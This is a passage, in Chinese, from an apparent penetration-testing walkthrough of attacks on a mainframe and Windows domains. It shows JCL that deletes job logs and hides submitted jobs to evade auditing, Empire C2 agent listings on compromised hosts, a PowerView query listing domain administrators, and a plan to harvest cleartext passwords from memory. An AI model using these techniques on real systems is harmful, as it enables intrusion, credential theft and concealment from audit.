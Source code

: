 ```
OUTPUT FTPSRV1(JOB04723) delete
OUTPUT FTPSRV1(JOB04724) delete
OUTPUT FTPSRV1(JOB04725) delete
 ALU FTPSRV NOSPECIAL NOOPERATIONS
/*
//SYSIN DD DUMMY
//SYSTSPRT DD SYSOUT=*
```

我们在工作卡中添加了MSGLEVEL=0指令，这样就不会记录上次提交的JCL的核心内容。使用多个“OUTPUT”命令删除与先前JCL相关的日志。

最后，我们删除帐户的特殊和操作权限，使一切恢复正常。

还不错吧？大型机被黑客社区如此忽视，以至于我们认为它们已经过时，很快就会消失。

因此，一个典型的渗透测试人员更喜欢电子邮件和域控制器，而真正的数据是在一个（有时）缺乏安全审计审查的大型机的数据集内…

## HR域
### 再次认识对方
在上一章中，我们利用了GBSALES和GBSHOP域中列出的备份帐户。这是一个技巧，我们可以再次应用在其他一些域：GBRD，GBCORP等。

然而，人力资源领域GBHR似乎没有这样的帐户。幸运的管理失误，还是真正的加固措施？谁知道呢…无论如何，我们会为这个域寻求一种不同的方法：寻找系统管理员。

我们已经完全控制了不同域中的一些计算机。因此，我们可以将最近连接到这些所有这些机器上的用户的明文密码dump出来，如果有人连接到其中任何一台机器上，就会将它们变成真正的陷阱。
```
Empire: salesFTP) > agents
[*] Active agents:
Name Internal IP Machine Name Username
wkAgent 192.168.1.25 WK0025 *WL0025_wk_admin
DvAgent 192.168.1.2 WK0025 GBSHOP\dvoxon
Dcshop 10.10.20.199 SV0199 *GBSHOP\rachel_adm
salesFTP 10.30.30.210 SL0210 *GBSALES\sysback
```

GBHR用户、计划任务或服务帐户连接到这些陷阱之一并将其凭据留在内存中，这只是时间问题！

使用GBSALES域上的代理，我们首先在GBHR中列出域管理员：
```
(Empire: salesFTP) > usemodule
situational_awareness/network/powerview/get_user
(Empire: get_user) > set Filter adminCount=1
(Empire: get_user) > set Domain GBHR.CORP
(Empire: get_user) > execute
Job started: Debug32_qa90a
distinguishedname : CN=Administrator,CN=Users,DC=GBHR,DC=CORP
name : Administrator
objectsid : S-1-5-21-1930387874-2808181134-879091260-500
admincount : 1
distinguishedname : CN=svc_ps,CN=Users,DC=GBHR,DC=CORP
name : svc_ps
objectsid : S-1-5-21-1930387874-2808181134-879091260-2001
admincount : 1
distinguishedname : CN=erica_a,CN=Users,DC=GBHR,DC=CORP
name : erica_a
objectsid : S-1-5-21-1930387874-2808181134-879091260-2030
admincount : 1
```
